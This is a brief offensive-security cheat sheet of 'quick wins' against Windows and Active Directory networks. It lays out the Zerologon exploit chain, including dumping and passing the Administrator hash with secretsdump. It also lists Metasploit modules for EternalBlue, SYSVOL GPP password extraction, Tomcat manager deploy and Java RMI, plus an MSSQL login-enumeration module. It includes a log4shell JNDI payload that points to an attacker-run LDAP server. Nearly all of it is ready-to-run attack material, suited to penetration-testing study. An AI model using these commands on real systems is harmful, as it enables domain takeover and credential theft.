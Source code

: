 ### Quick wins  
# zerologon (unsafe) - (CVE-2020-1472)  
  
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>  
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator"   
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>  
python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>  
  
# Eternal Blue  
MS17-010  
	exploit/windows/smb/ms17_010_eternalblue  
  
# SYSVOL & GPP  
MS14-025  
	use scanner/smb/smb_enum_gpp  
	findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml  
  
# tomcat/jboss manager  
	auxiliary/scanner/http/tomcat_enum  
exploit/multi/http/tomcat_mgr_deploy  
  
# java rmi  
	exploit/multi/misc/java_rmi_server  
  
# java serialized port  
	ysoserial  
  
# vulnerable product with cve  
	searchsploit  
  
# log4shell  
	${jndi:ldap://<ip>:<port>/o=reference}  
		rogueJndi-1.0.jar  
  
#database credentials  
	use admin/mssql/mssql_enum_sql_logins  
  
